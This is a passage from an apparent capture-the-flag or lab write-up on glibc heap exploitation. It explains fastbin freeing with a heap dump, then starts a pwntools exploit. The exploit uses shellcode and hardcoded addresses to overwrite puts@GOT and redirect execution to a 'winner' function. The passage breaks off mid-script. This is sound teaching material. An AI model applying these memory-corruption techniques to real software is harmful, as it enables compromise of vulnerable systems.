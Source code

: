 This behavior initially confused me. It becomes clear why, though, when we remember that what we learned doesn't apply to anything smaller than 80 bytes. These chunks are being sent into the [fastbins](https://elixir.bootlin.com/glibc/glibc-2.7/source/malloc/malloc.c#L4573). The fast bins contain singly-linked lists, so as we see in the source code for free, it takes the `->fd` pointer and sets it to the value of `*fb`, which starts as null. After that, it sets `*fb` to equal the address of our current chunk. If that's what's happening, when we continue, we should see our chunk A's value appear in chunk B
```
0xf7e69000│+0x0000 0x0000002900000000
0xf7e69008│+0x0008 0x4141414141414141
0xf7e69010│+0x0010 0x0000000000000000
0xf7e69018│+0x0018 0x0000000000000000
0xf7e69020│+0x0020 0x0000000000000000
0xf7e69028│+0x0028 0x0000002900000000
0xf7e69030│+0x0030 0x42424242f7e69050
0xf7e69038│+0x0038 0x0000000000000000
0xf7e69040│+0x0040 0x0000000000000000
0xf7e69048│+0x0048 0x0000000000000000
0xf7e69050│+0x0050 0x0000002900000000
0xf7e69058│+0x0058 0x4343434300000000
0xf7e69060│+0x0060 0x0000000000000043
0xf7e69068│+0x0068 0x0000000000000000
0xf7e69070│+0x0070 0x0000000000000000
0xf7e69078│+0x0078 0x000fff8900000000
```

As expected, `->fd` of chunk B is now equal to the address of chunk A. This is the same for the third chunk. Let's start writing an exploit. What we'd like to do is a) trick `free` into thinking that our chunk C is already freed and that it needs to be consolidated, and make a swap between some memory in our heap space to the GOT. We can overwrite puts, because it is called at the end of the binary. I initially thought this meant overwriting the PLT, but then I realized that the PLT holds code that calls whatever address is stored in the GOT. So if we can insert the address of winner into the binary in the GOT for puts, we can get it to run it.

Initally I had the idea of swapping the two addresses, but both locations have to be writeable or it would crash, so that got scrapped. Instead, we can put shellcode in the heap that will run our exploit for us.

```python
from pwn import *

PUTS = 0x804c13c # address of puts@GOT
WINNER = 0x080487d5 # address of winner
HEAPADDR = 0xf7e69000 # address of the start of the heap
```

Those are the addresses we need. The first chunk of our script needs to be our shellcode, since it's the easiest to access:

```python
shellcode = b"\x68\xD5\x87\x04\x08\xC3"

payload = b'\x90'*12 + shellcode # set up the shellcode
payload += b' '
```
